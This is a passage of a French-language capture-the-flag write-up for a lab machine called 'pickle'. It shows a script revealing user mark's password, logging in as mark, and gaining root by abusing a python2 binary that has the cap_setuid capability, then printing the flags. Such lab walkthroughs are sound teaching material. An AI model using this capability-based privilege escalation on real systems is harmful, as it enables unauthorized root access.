 Et si nous courons, nous voyons que nous avons un mot de passe de marque.

    # python reset.py 
    SUk5enROY2FnUWxnV1BUWFJNNXh4amxhc00wPQ== # Mark's password 
    
    lucas@pickle:/opt/project$ su - mark 
    Password: SUk5enROY2FnUWxnV1BUWFJNNXh4amxhc00wPQ== 
    mark@pickle:~$ cat user.txt 
    e25fd1[...SNIP...] 

# Mark > Root 

La racine n'est pas très compliquée, recherchez simplement les fichiers prenant en charge les fonctionnalités.

    mark@pickle:~$ getcap -r / 2>/dev/null 
    /home/mark/python2 = cap_setuid+ep 
    /usr/bin/ping = cap_net_raw+ep 
    
Il vous suffit d'exécuter python et d'utiliser le module os pour exécuter une commande.

    mark@pickle:~$ /home/mark/python2 
    /home/mark/python2 
    Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
    [GCC 8.3.0] on linux2 
    Type "help", "copyright", "credits" or "license" for more information. 
    >>> import os 
    >>> os.setuid(0) 
    >>> os.system('cat /root/root.txt') 
    os.system('cat /root/root.txt') 
    7a32c9739cc63ed983ae01af2577c01c

